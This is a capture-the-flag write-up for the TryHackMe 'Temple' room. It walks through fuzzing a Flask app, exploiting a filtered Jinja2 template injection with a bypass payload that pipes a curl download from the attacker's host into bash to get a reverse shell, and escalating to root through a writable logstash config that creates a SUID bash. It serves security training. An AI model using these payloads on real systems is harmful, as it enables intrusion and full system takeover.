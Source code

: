 **Temple - Hard**

**Category: Security, Web, Hacking, Flask**

**URL: https://tryhackme.com/room/temple**

  

**Thoughts about the challenge before starting the challenge.**

When looking at the task, based on the name and the categories, it is most likely a Server-Side Template Injection (SSTI) vulnerability that will be exploited.
Python Werkzeug Flask is well known in CTFs to contain SSTI vulnerability, and the name of the challenge also hints at the T in the SSTI.
The difficulty of the challenge could be based on how hard it is to find the vulnerability, if it is hard to exploit, bypassing of filters, and as well the difficulty of the privilege escalation.


**Process for obtaining Flag1.txt:**

**Open ports and services:**
````
7 echo: this service only echoes back what is being sent to it.
21 ftp - 22 ssh - 23 telnet: not leaking any sensitive data and would be time-consuming to brute force.
80 Apache HTTP: Not more than the default Apache site.
61337 Werkzeug HTTP: Based on the thoughts of the challenge, this is the service that most likely would contain the SSTI vulnerability and the service being tested at the highest priority.
````

When accessing the website ````http://IP:61337````, we are being redirected to ````/login````.
This path only contains a login form and has no functionality to access other paths.
The source code does not leak any other paths.


The login form is tested with simple SQLi and more advanced, as well as the automatization tool sqlmap without any signs of SQLi vulnerability.


Next is file and directory discovery through fuzzing.
Because this is a Flask web application, the fuzzing would be done without extensions.
Initially, I would always use a short wordlist with common names.
In Kali Linux, a standard wordlist is found at ````/usr/shar/wordlist/dirb/common.txt````.
This gave some results, but not what was needed. Therefore it was essential to test with other wordlists.
The other wordlists are the ````SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-(small|medium|big).txt````.
As for this, I start with the smallest wordlist first and then escalate to the bigger wordlists if needed.
This was a time-consuming task at first, and it tested the patience of the enumeration process.
````The biggest tip for this process is to use FFUF and set the threads flag at a high level.````
I found that both ````100 and 200 threads gave the same result````. This gave me the result after 3 minutes and 40 seconds.
If running default at the configuration of ````40 threads````, this would take a lot more time. If the service is slow, it could take over an hour.
At my first attempt at fuzzing for paths, the last path was not found after one and a half hours of fuzzing.
This resulted from a slow service and a low amount of threads. 


**common.txt result:**
````
302 - /account                                              
403 - /admin                                                
302 - /application                                           
302 - /external                                             
302 - /home                                                  
302 - /internal                                            
200 - /login                                               
302 - /logout                                               
200 - /robots.txt                                            
403 - /temporary
403 - /temporary/dev
````

**SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt:**
````
200 - /temporary/dev/newacc
````

The endpoint found is an endpoint where we could create an account.
This only requires an ````email, username, and password```` where the username must be longer than ````5```` and the password longer than ````8````.
After creating the account, we could login to the user portal, which gives access to the paths with the ````302 code````.


Under the path ````/account````, the representative account username is displayed.
This is important to test further since it could display an SSTI vulnerability.
By creating a new account with ````{{5*5}}```` as username, the username displayed when logged in should display ````25```` if it is vulnerable.
If not, it could be filtered to bypass, or the correct field still needs to be found.


After creating an account with username ````{{5*5}}````, the account path does show ````25````, which means it has an SSTI vulnerability, as expected from the name and category.
This could be exploited with os commands and reverse shell.


To get a foothold, Hacktricks is a fantastic tool with many copy-paste codes that could be pasted into the username field with some modifications to make it do what we want.
The cheat sheet for SSTI at hacktrick is found at: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection .


All the snippets from this site were tested, but all were rejected by the server as a hacking attempt.
This means we have to find other ways to bypass different filters which could be used.
For this, I found this site through Google: https://hackmd.io/@Chivato/HyWsJ31dI#RCE-bypassing-as-much-as-I-possibly-can


**The one used was this**:
````
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
````

This is still rejected because a hacking attempt was made, but based on the website, this should bypass most of the filters.
I tested the same but changed the ````'```` to, ````"```` and this was the last bypass needed.
````
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("whoami")|attr("read")()}}
````

This gave the result in the username field of the account endpoint, ````bill````, which means that the ````bill```` user on the server is the user who owns the running service.
This would also make the reverse shell identity ````bill```` after successful exploitation.
For the process of gaining foothold, it is essential to start a listener.
When testing basic reverse shells, it was either reported as a hacking attempt or not giving a result to the listener.
Then I tested with a simple curl command to my IP and the listening port, which gave a hit.
This means we could create a simple bash reverse shell in a file and then open a Python server, making the curl command possible to access the file.
Therefore, changing ````whoami```` from the SSTI above to ````curl http://IP:port/reverseshellfile|bash```` would collect and execute the code.
````
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl http://10.9.80.181/sstibypassshell|bash")|attr("read")()}}
````

After inserting this as the username and creating the account, a reverse shell is spawned when accessing the ````/account```` path.
This gave foothold as ````bill````, and the first flag was found under ````/home/bill/flagg1.txt````.


**Useful commands for a better shell:**
````
1. on the target: python3 -c 'import pty;pty.spawn("/bin/bash")'
2. on the target: export TERM=xterm
3. on the target: Ctrl + Z
4. in the same window as the target is being backgrounded: stty raw -echo; fg
5. on the target: stty rows 38 columns 116
````

This would make it possible to arrow up for earlier commands, clear to clear the terminal.
The terminal is not being exited with ````CTRL + C````, making it possible to run other scripts on the target and use ````CTRL + C```` to exit that script and not the terminal reverse shell.


**Process for obtaining Flag2.txt:**

When enumerating for escalating possibilities, I always check manually at first before using auto scripts like Linpeas.
This is because some escalations could often be found faster by one or multiple commands than by a script running multiple processes to gather critical information.
For this, commands like ````netstat -tvlp```` to look for undiscovered open ports or locally open ports,
````find / -perm -4000 2>/dev/null```` to find SUID binaries which could be abused,
check directories like ````/home```` for which users we could privesc to, ````/opt /tmp```` for abnormalities, the flask application found at ````/home/bill/webapp```` as well as running processes.
For running processes, I like to use ````pspy64```` since it would check live processes and spawning processes, which could give a cronjob run by root that could be used.
Using ````ps```` for running processes could miss cronjobs being executed.


When using the ````pspy64````, a binary: ````/usr/share/logstash/jdk/bin/java```` is being executed by root.
Searching for logstash at hacktricks introduces us to a privilege escalation possibility.
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash


The first indicator for this vulnerability is if this file ````/etc/logstash/pipelines.yml contains 'path.config: "/etc/logstash/conf.d/*.conf"'````.
The * means it would use all the .conf files inside the path /etc/logstash/conf.d/. 


````pipeline.yml```` on the target, which indicated what was explained above from hacktricks.
````
- pipeline.id: main
  path.config: "/etc/logstash/conf.d/*.conf"
````

The following important part of this exploit is to have write permission to the directory conf.d or a file inside.
In this case, we do not have write permission to the directory, but we have write permission to the only conf file inside the directory: ````logstash-sample.conf````.
````
dr-xr-xr-x   2 root root  4096 Oct  3  2021 conf.d
-r--r--rw- 1 root root 101 Oct  4  2021 logstash-sample.conf
````

The last thing we need is a way to reload the service.
The file ````/etc/logstash/logstash.yml```` contains information about the config reloading automatically every third second.
This means it is possible to exploit the vulnerability.


````logstash.yml```` on the target, which indicates the reloading process.
````
config.reload.automatic: true
config.reload.interval: 3s
````

By writing this code into the config file, we would copy the ````/bin/bash```` binary to a replica and add SUID privileges to the binary,
which means we could run this binary with the ````-p```` flag and have root privileges.
This code is the one found at https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash , but with another command.


**privesc exploit:**
````
input {
  exec {  
    command => "cp /bin/bash /tmp/bash; chmod +s /tmp/bash"    
    interval => 120    
  }
}

output {
  file { 
    path => "/tmp/output.log"   
    codec => rubydebug   
  }  
}
````

The last flag is then found at ````/root/flag2.txt````.


**More information:**

We got access to the bill user based on the SSTI, but there were also found 2 other users, frankie and princess.
After the challenge was completed, there was found a possibility to crack the princess password based on the hash found in ````/etc/shadow````.
This was only tested with the Rockyou wordlist. This indicates that the server allows users to have bad passwords.

It is also possible to obtain access to the MySQL service.
Credentials for this service are leaked in the ````/home/bill/webapp/app.py````.
